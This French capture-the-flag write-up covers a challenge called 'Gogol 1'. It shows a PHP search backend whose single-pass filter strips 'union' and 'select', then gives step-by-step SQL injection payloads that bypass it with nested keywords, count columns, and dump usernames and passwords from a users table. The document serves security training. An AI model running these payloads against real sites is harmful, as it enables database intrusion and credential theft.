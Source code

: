 # Gogol 1

Ici on a un premier coup de main fourni par l'énoncé

> Tu peux voir le code source de l'application en ajoutant le paramètre "GetItNude" dans ta requête GET.

On récupère donc le code PHP du backend qui gère les recherches.  
Et en PHP, quand on voit une requête non-préparée qui implémente des filtres fait main, en général ça pue l'injection SQL.

On remarque que le filtre consiste à remplacer les mots clés "union" et "select" par.. rien.

```php
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
} 
```

Et comme le filtre n'est appliqué qu'une fois, on peut s'amuser à écrire des choses comme ça `uunionnion` qui, une fois 
passé dans notre "filtre", deviendra un "union" parfaitement valide syntaxiquement parlant. On peut faire le test :

```php
$haystack = "uunionnion";
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $haystack = preg_replace('/' . $banned . '/i', '', $haystack);
}

echo $haystack;
```

Evidemment cela fonctionne aussi pour select (ou devrais-je dire `sselectelect`).

Reste maintenant à échapper notre LIKE dans la requête. Le plus simple est d'utiliser un `' and 0` (ou  un `' and NULL` ou un  `' and 1` ou ... bref vous avez l'idée).
On se retrouve donc avec une requête qui ressemble plus ou moins à ça :

```
' and 0 UUNIONNION SSELECTELECT 1#
```

Reste à déterminer le nombre de colonnes de façon itérative :

```
' and 0 UUNIONNION SSELECTELECT 1#
' and 0 UUNIONNION SSELECTELECT 1,2#
' and 0 UUNIONNION SSELECTELECT 1,2,3# <-- les numéros de colonnes s'affichent 
```

Maintenant qu'on a le nombre de colonne, reste plus qu'à chercher un peu dans la bdd :

```
' and 0 UUNIONNION SSELECTELECT version(),user(),database()#
```

on pourrait facilement retrouver le nom des tables mais le plus simple reste d'essayer avec des nom de tables / champs classiques :


```
' and 0 UUNIONNION SSELECTELECT username,password,3 from users#
```

Et le challenge est validé :)

`INEAT{azerty-is-a-g00d-p4ssw0rd}`

# Gogol 2
